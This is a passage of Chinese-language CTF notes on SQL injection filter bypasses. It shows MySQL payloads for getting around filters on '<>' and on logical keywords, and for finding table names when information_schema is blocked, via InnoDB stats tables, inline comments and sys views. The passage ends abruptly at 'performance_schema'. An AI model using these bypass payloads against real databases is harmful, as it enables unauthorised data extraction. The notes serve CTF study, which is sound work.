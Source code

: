  

## 过滤<，>

1. 如果使用sqlmap可以使用between脚本绕过，between a and b 返回a，b之间的数据，不包含b
2. 使用greatest函数和least函数

```sql
select * from users where id=1 and ascii(substr(database(),0,1))>64

select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64
```

 

## 过滤 or and xor not

1. and=&&
2. or=||
3. xor=|
4. not=！



## 过滤 information_schema

在2019-2020年间的CTF比赛比较流行的一类SQL注入题目都喜欢过滤 `information_schema`，`information_schema`是mysql获取表名的最主要途径，在这种情况下可以有以下思路：

1. 利用InnoDB中的表，如` innodb_table_stats` 和`innodb_index_stats`，`innodb_index_stats` 会有重复的表名记录（这两个表无法获取column名字，需要配合子查询来使用）

```sql
select concat(table_name) from mysql.innodb_table_stats where database_name = database()

select concat(table_name) from mysql.innodb_index_stats where database_name = database()
```

2. 使用内联注释 `/*!code*/`

```sql
select table_name from /*!InfoRmAtion_sCheMa*/.tables;
```

3. 利用 sys 表，与1相同，无法获取column 名字，需要配合子查询

```sql
# schema_auto_increment_columns
select concat(table_name) from sys.schema_auto_increment_columns where table_schema = database();
# schema_table_statistics_with_buffer 
# x$schema_table_statistics_with_buffer
select concat(table_name) from sys.schema_table_statistics_with_buffer where table_schema = database();
select concat(table_name) from sys.x$schema_table_statistics_with_buffer where table_schema = database();
```

4. performance_schema
